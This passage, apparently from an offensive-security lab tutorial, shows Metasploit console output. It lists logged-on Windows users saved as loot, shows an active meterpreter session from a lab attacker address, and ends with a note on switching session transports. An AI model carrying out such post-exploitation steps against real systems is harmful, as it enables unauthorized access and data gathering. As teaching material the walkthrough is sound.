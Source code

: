 ```
 SID                                           User
 ---                                           ----
 S-1-5-21-966894886-435473622-1450565287-1001  DESKTOP-6UTT671\Offsec


[+] Results saved in: /root/.msf4/loot/20210122123019_default_192.168.120.11_host.users.activ_098683.txt

Recently Logged Users
=====================

 SID                                           Profile Path
 ---                                           ------------
 S-1-5-18                                      %systemroot%\system32\config\systemprofile
 S-1-5-19                                      %systemroot%\ServiceProfiles\LocalService
 S-1-5-20                                      %systemroot%\ServiceProfiles\NetworkService
 S-1-5-21-966894886-435473622-1450565287-1001  C:\Users\Offsec


msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  2         meterpreter x86/windows  DESKTOP-6UTT671\Offsec @ DESKTOP-6UTT671  192.168.118.2:5555 -> 192.168.120.11:50843 (192.168.120.11)



msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```

We successfully switched transports, created a new meterpreter session, and shut down the old one.